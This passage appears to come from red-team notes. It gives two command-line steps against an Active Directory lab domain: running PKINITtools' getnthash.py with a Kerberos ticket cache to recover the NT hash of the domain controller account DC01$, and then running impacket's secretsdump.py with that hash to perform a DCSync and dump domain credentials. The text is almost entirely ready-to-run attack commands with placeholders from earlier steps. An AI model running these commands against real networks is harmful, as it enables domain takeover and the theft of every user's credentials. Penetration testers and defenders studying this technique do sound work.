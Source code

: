 ### Running getnthash.py (https://github.com/dirkjanm/PKINITtools) to obtain the NT hash of the DC01$ user (can be used to perform DCSync)
```
KRB5CCNAME=DC01.ccache python3 getnthash.py -dc-ip 192.168.0.100 redteam.local/DC01\$ -key {key_obtained_in_previous_command}
```

### Running DCSync/Secretsdump
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'redteam.local'/'DC01$'@'192.168.0.100' -hashes :{nt_hash_from_previous_command}
```

